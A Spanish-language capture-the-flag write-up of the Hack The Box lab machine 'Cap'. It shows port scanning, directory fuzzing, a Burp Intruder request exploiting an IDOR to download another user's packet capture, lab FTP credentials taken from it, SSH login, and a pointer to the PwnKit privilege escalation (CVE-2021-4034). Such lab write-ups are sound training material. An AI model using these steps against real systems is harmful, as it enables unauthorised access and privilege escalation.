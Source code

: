 ```yaml
---
layout: post
title: "Cap"
date: 2024-04-05 17:04:54 +0100
tags: ["IDOR", "CVE"]
categories: ["Linux", Easy]
image: "https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/70ea3357a2d090af11a0953ec8717e90.png"
---
```


```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-15 11:13 CEST
Nmap scan report for 10.10.10.245
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Fri, 15 Aug 2025 09:13:51 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|     <SNIP>
```

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u "http://10.10.10.245/FUZZ"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.245/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

data                    [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 53ms]
ip                      [Status: 200, Size: 17452, Words: 7275, Lines: 355, Duration: 80ms]
                        [Status: 200, Size: 19386, Words: 8716, Lines: 389, Duration: 48ms]
capture                 [Status: 302, Size: 220, Words: 21, Lines: 4, Duration: 5112ms]
                        [Status: 200, Size: 19386, Words: 8716, Lines: 389, Duration: 65ms]
```

Entrar en la web y clicar en el botón "Security Snapshot...", luego en Download.

![](/assets/machines/cap.htb/images/329c78bc-b05b-4685-8c54-4fd5a48724d0.webp)

La petición que se hace es al endpoint /download/N

**Burp Suite Intruder**

Con Burp realizamos un ataque de Fuzzing.

```
GET /download/§DOWNLOAD§ HTTP/1.1
Host: 10.10.10.245
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.10.245/data/3
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache

```

El payload 1 y 2 nos pertenecen a nosotros, pero el payload 0 es de otro usuario.
![](/assets/machines/cap.htb/images/14fa71b4-0aea-463e-a848-3ef5198ff6ba.webp)

Abrimos el 0.pcap descargado con Wireshark. Se muestra una conexión FTP con credenciales validas `nathan:Buck3tH4TF0RM3!`.
![](/assets/machines/cap.htb/images/9628a135-076b-4829-9187-41abbb95cdb9.webp)

**Conexión FTP.**

```
ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:user): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

**Conexión SSH**

```
ssh nathan@10.10.10.245
```

## Escalado de Privilegios

**SUID**

```
nathan@cap:/tmp$ find / -perm /4000 -type f -exec ls -l {} \; 2>/dev/null
<SNIP>
-rwsr-xr-x 1 root root 31032 Aug 16  2019 /usr/bin/pkexec
```

**CVE-2021-4034**: https://github.com/ly4k/PwnKit

![](/assets/machines/cap.htb/images/17274634-0ffb-4b38-a667-15c20b357015.webp)
